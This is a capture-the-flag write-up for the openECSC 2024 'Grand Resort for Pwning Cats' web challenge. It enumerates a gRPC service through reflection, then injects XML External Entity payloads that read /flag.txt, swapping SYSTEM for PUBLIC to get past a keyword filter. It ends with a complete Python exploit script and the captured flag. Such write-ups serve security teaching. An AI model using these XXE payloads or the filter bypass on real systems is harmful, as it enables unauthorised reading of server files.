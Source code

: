 # openECSC 2024 - Round 3

## [web] Grand Resort for Pwning Cats (178 solves)

Welcome to the Grand Resort for Pwning Cats. Are you ready to become the cutest pwner kitten at our establishment?

The flag is stored in `/flag.txt`

Site: [http://grandresort.challs.open.ecsc2024.it](http://grandresort.challs.open.ecsc2024.it)

Authors: Vittorio Mignini <@M1gnus>, Simone Cimarelli <@Aquilairreale>

## Foothold

Since no proto files or service description are provided, the only way to make requests to the server is by using GRPC Reflection. GRPC Reflection allow a client to know what services are hosted by the server and to know details about methods and messages.

The GO code which enable GRPC reflection is the following, from `server.go`:

```golang
reflection.Register(grpcServer)
```

Since reflection is enabled, the first thing to do is use a proper tool to enumerate services and methods. In this writeup there will be two solution, using `grpc_cli` and python's library `grpc_requests`.

## Enumerate services

```text
~ % grpc_cli ls 192.168.1.143:55001
GrandResort.Reception
grpc.reflection.v1.ServerReflection
grpc.reflection.v1alpha.ServerReflection
```

The only service non reflection-related is `GrandResort.Reception`, which has to be the correct one to further enumerate.

## Enumerate service methods

```text
~ % grpc_cli ls 192.168.1.143:55001 -l
filename: grand-resort.proto
package: GrandResort;
service Reception {
  rpc createRoomRequestModelc21a7f50(google.protobuf.Empty) returns (GrandResort.RoomRequestModel) {}
  rpc createRoom73950029(GrandResort.RoomRequestModel) returns (GrandResort.RoomCreationResponse) {}
  rpc listRooms(google.protobuf.Empty) returns (GrandResort.RoomList) {}
  rpc bookRoom(GrandResort.BookingInfo) returns (GrandResort.BookingConfirm) {}
}

filename: grpc/reflection/v1/reflection.proto
package: grpc.reflection.v1;
service ServerReflection {
  rpc ServerReflectionInfo(stream grpc.reflection.v1.ServerReflectionRequest) returns (stream grpc.reflection.v1.ServerReflectionResponse) {}
}

filename: grpc/reflection/v1alpha/reflection.proto
package: grpc.reflection.v1alpha;
service ServerReflection {
  rpc ServerReflectionInfo(stream grpc.reflection.v1alpha.ServerReflectionRequest) returns (stream grpc.reflection.v1alpha.ServerReflectionResponse) {}
}
```

The most interesting methods is the one called `createRoomRequestModelc21a7f50` and the one called `createRoom73950029`. The only argument taken by `createRoomRequestModelc21a7f50` is `google.protobuf.Empty`, which is represented by an empty string in `grpc_cli`, while the only argument taken by `createRoom73950029` is `GrandResort.RoomRequestModel`.

## Call the interesting RPC procedures

```xml
~ % grpc_cli call 192.168.1.143:55001 createRoomRequestModelc21a7f50 "" --json_output 2>/dev/null | jq -r .RoomRequestModel
<?xml version="1.0" encoding="UTF-8"?>
<room>
    <name>RoomName</name>
    <price>$100.0</price>
    <description>RoomDescription</description>
    <size>30 m2</size>
</room>
```

The obtained model can be used to perform a XXE attack, to read the file `/flag.txt`.

```xml
~ % grpc_cli type 192.168.1.143:55001 GrandResort.RoomRequestModel
message RoomRequestModel {
  string RoomRequestModel = 1 [json_name = "RoomRequestModel"];
}
~ % grpc_cli --json_input call 192.168.1.143:55001 createRoom73950029 '{"RoomRequestModel": "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE room [<!ENTITY flag SYSTEM \"/flag.txt\">]>
<room>
  <name>&flag;</name>
  <price>$100.0</price>
  <description>RoomDescription</description>
  <size>30 m2</size>
</room>"}'
connecting to 192.168.1.143:55001
RoomCreationResponse: "Error: you can\'t use the S-word!"
```

From the response we can deduce that "SYSTEM" keyword is filtered, easy as it is: we can use PUBLIC instead:

```xml
grpc_cli --json_input call 192.168.1.143:55001 createRoom73950029 '{"RoomRequestModel": "<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<!DOCTYPE room [<!ENTITY flag PUBLIC \"flag\" \"/flag.txt\">]>
<room>
  <name>&flag;</name>
  <price>$100.0</price>
  <description>RoomDescription</description>
  <size>30 m2</size>
</room>"}'
connecting to 192.168.1.143:55001
RoomCreationResponse: "You requested the creation of openECSC{UWu_r3fl3ktIng_K17T3n5_uWU_c3c3c181}"
```

## Exploit

> grpc_requests==0.1.16

```python
import os
from grpc_requests import Client
from textwrap import dedent

HOST = os.environ.get("HOST", "grandresort.challs.open.ecsc2024.it")
PORT = int(os.environ.get("PORT", 38010))

client = Client.get_by_endpoint(f"{HOST}:{PORT}")

print("##### OBTAINING SERVICES #####")
for service in client.service_names:
  print(f"SERVICE: {service}")
service = client.service("GrandResort.Reception")
print()

print("##### OBTAINING SERVICE METHODS #####")
for method in service.method_names:
  print(f"METHOD: {method}")
getTemplate = getattr(service, "createRoomRequestModelc21a7f50")
sendRequest = getattr(service, "createRoom73950029")
print()

print("##### DESCRIBE METHOD REQUEST #####")
print(f'PARAMETERS GET TEMPLATE: {client.describe_method_request("GrandResort.Reception", "createRoomRequestModelc21a7f50")}')
print(f'PARAMETERS SEND REQUEST: {client.describe_method_request("GrandResort.Reception", "createRoom73950029")}')
print()

print("##### GET THE TEMPLATE #####")
print(getTemplate({})["RoomRequestModel"])
print()

print("##### EXECUTING THE XXE #####")
print(sendRequest({
  "RoomRequestModel": dedent("""
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE room [<!ENTITY flag PUBLIC "flag" "/flag.txt">]>
    <room>
        <name>&flag;</name>
        <price>$100.0</price>
        <description>RoomDescription</description>
        <size>30 m2</size>
    </room>
  """).strip()
})['RoomCreationResponse'])
```
